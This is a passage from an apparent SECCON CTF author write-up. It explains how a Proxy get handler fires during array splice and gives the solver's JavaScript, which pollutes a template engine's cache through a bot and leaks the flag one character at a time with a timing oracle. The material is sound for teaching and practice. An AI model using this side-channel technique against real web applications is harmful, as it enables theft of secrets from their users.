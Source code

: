 When `notes.splice(1, 1)` was executed, the `get` handler of Proxy was **implicitly** called and `"3"` changed to `"3x"`. So, the final result of `notes[1]` was `"3xx"` because the `get` handler was called again.

My solution abuses the above behavior to construct a time-based oracle.

Firstly, my solver lets the bot pollute cache in the template engine as follows (in `index.html`):
```javascript
    const polluteCache = async (flagIndex) => {
      const evilNote = `${flagIndex}-{{notes.${flagIndex}}}-{{emoji}}`;
      createNote("dummy");
      await sleep(500);
      createNote(evilNote);
      await sleep(500);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
    }

    const main = async () => {
      const heavyTemplate = "{{x}}".repeat(HEAVY_LEVEL);
      changeEmoji(heavyTemplate);
      await sleep(1000);

      const known = "SECCON{";
      for (let i = known.length; i<MAX_FLAG_LENGTH; i++) {
        await polluteCache(i);
      }
      navigator.sendBeacon(`${location.origin}/start-leak`);
    };
    main();
```

Next, my solver leaks the flag characters using the time-based oracle as follows (in `index.js`):
```javascript
const leak = async (flagIndex, cookie) => {
  let minTime = 1e10;
  let minChar;
  for (const char of CHARS) {
    const note = `${flagIndex}-${char}-${"{{x}}".repeat(HEAVY_LEVEL)}`;
    await createNote(note, cookie);
    const time = await measureTime(cookie);
    await deleteNote(0, cookie);
    if (time < minTime) {
      minTime = time;
      minChar = char;
    }
  }
  if (!minChar) fail(`Failed at ${flagIndex}`);

  return minChar;
};

const exploit = async () => {
  /* snip */
  const cookie = /* snip (a cookie of your account) */;

  let prefix = "SECCON{";
  while (!prefix.endsWith("}")) {
    prefix += await leak(prefix.length, cookie);
    console.log(prefix);
    await sleep(500);
  }

```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell